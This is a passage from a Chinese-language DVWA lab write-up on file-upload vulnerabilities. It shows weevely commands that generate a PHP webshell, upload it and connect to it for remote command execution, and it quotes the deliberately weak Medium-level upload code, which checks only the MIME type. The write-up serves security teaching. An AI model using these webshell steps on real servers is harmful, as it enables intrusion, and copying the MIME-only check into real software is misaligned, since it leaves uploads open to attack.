 这里并没有过滤文件后缀名或其他防御措施。

#### 解题思路
直接上传webshell，用菜刀或weevely连接。
weevely 生成webshell。
kali Linux终端输入：

```
weevely generate pass 1.php		# 在当前路径下生成1.php文件，密码是pass

然后到DVWA上传1.php文件，再到终端输入：
weevely "http://ip地址/dvwa/hackable/uploads/1.php" pass
连接后输入：
system_info		# 可以查看系统信息
shell_sh [cmd]	# cmd是shell命令，如dir
...
```



## 0x02 Medium

#### 源码分析
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
在Low级别的基础上，多判断了HTTP头中的MIME类型，并限制了文件大小为10000字节。
